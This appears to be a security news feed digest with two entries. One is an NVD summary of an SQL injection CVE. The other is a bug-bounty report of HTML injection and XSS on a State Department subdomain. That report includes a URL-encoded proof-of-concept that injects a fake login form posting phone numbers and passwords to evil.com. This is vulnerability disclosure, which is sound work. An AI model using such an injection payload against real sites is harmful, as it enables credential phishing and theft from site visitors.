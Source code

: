 # cibsecurity
`2023-02-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2012-10008

<blockquote>
‼ CVE-2012-10008 ‼

A vulnerability, which was classified as critical, has been found in uakfdotb oneapp. This issue affects some unknown processing. The manipulation leads to sql injection. The attack may be initiated remotely. This product does not use versioning. This is why information about affected and unaffected releases are unavailable. The name of the patch is 5413ac804f1b09f9decc46a6c37b08352c49669c. It is recommended to apply a patch to fix this issue. The associated identifier of this vulnerability is VDB-221483.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-20`

<blockquote>
U.S. Department of State: xss and html injection on ( https://labs.history.state.gov)
https://vulners.com/hackerone/H1:1810656?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1810656?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1810656?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: there's possible xss and html injection on your  website https://labs.history.state.gov    through /card.xq?id&#61; parameter because your web did not sanatize user input  and you have vulnerable  JavaScript libraries jQuery 1.11.3 Steps To Reproduce: &#35;&#35; html injection P O C code https://labs.history.state.gov/card.xq?id&#61;%3C/title%3E%3Cbody%20style&#61;%22background:%20green;%22%3E%3Cdiv%20class&#61;%22container%22%3E%3Cform%20action&#61;%22https://www.evil.com%22%20method&#61;%22post%22%20class&#61;%22form%22%20style&#61;%22display:%20block;%22%3E%3Clabel%20for&#61;%22pnumber%22%3Ephone%20number%20%3C/label%3E%3Cbr%3E%3Cinput%20type&#61;%22tel%22%20name&#61;%22pnumber%22%20id&#61;%22pnumber%22%20value&#61;%22%22%20placeholder&#61;%22phone%20number%22%20maxlength&#61;%2211%22inputmode&#61;%22tel%22%20size&#61;%2240px%22%3E%3Cbr%3E%3Clabel%20for&#61;%22pword%22%3Epassword%3C/label%3E%3Cbr%3E%3Cinput%20type&#61;%22password%22%20name&#61;%22pword%22%20id&#61;%22pword%22%20value&#61;%22%22%20placeholder&#61;%22password%22%20maxlength&#61;%22200%22%20size&#61;%2240px%22height&#61;%22100px%22%3E%3Cbr%3E…
</blockquote>
</td></tr></table>

---
